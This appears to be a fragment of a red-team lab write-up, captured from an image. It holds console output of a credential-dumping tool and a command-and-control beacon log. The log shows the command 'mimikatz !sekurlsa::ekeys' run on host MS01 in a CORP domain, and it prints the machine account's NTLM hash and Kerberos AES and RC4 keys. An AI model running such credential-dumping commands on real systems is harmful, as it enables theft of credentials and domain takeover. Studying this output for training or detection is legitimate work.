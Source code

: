 ```powershell
Domain            : (null)
Logon Server      : (null)
Logon Time        : 10/5/2023 9:39:07 AM
SID               : 
	msv :	
	 [00000003] Primary
	 * Username : MS01$
	 * Domain   : CORP
	 * NTLM     : b0008678126a9a7143961c96161725a4
	 * SHA1     : 570e49936ec2e700501645c102f53b64f66be28d
	tspkg :	
	wdigest :	
	kerberos :	
	ssp :	
	credman :	
```

```powershell
[10/06 12:17:06] beacon> mimikatz !sekurlsa::ekeys
[10/06 12:17:08] [*] Tasked beacon to run mimikatz's !sekurlsa::ekeys command
[10/06 12:17:10] [+] host called home, sent: 813682 bytes
[10/06 12:17:12] [+] received output:

Authentication Id : 0 ; 999 (00000000:000003e7)
Session           : UndefinedLogonType from 0
User Name         : MS01$
Domain            : CORP
Logon Server      : (null)
Logon Time        : 10/5/2023 9:39:07 AM
SID               : S-1-5-18

	 * Username : ms01$
	 * Domain   : CORP.LOCAL
	 * Password : (null)
	 * Key List :
	   aes256_hmac       ca5535b6c115d08ac507ad9b56229f6874a515f922ca7ae7ae9c26ee61ccc0f7
	   rc4_hmac_nt       b0008678126a9a7143961c96161725a4
	   rc4_hmac_old      b0008678126a9a7143961c96161725a4
	   rc4_md4           b0008678126a9a7143961c96161725a4
	   rc4_hmac_nt_exp   b0008678126a9a7143961c96161725a4
	   rc4_hmac_old_exp  b0008678126a9a7143961c96161725a4

Authentication Id : 0 ; 996 (00000000:000003e4)
Session           : Service from 0
User Name         : MS01$
Domain            : CORP
Logon Server      : (null)
Logon Time        : 10/5/2023 9:39:07 AM
SID               : S-1-5-20

	 * Username : ms01$
	 * Domain   : CORP.LOCAL
	 * Password : (null)
	 * Key List :
	   aes256_hmac       ca5535b6c115d08ac507ad9b56229f6874a515f922ca7ae7ae9c26ee61ccc0f7
	   rc4_hmac_nt       b0008678126a9a7143961c96161725a4
	   rc4_hmac_old      b0008678126a9a7143961c96161725a4
	   rc4_md4           b0008678126a9a7143961c96161725a4
	   rc4_hmac_nt_exp   b0008678126a9a7143961c96161725a4
	   rc4_hmac_old_exp  b0008678126a9a7143961c96161725a4

Authentication Id : 0 ; 66631 (00000000:00010447)
Session           : Interactive from 1
User Name         : DWM-1
```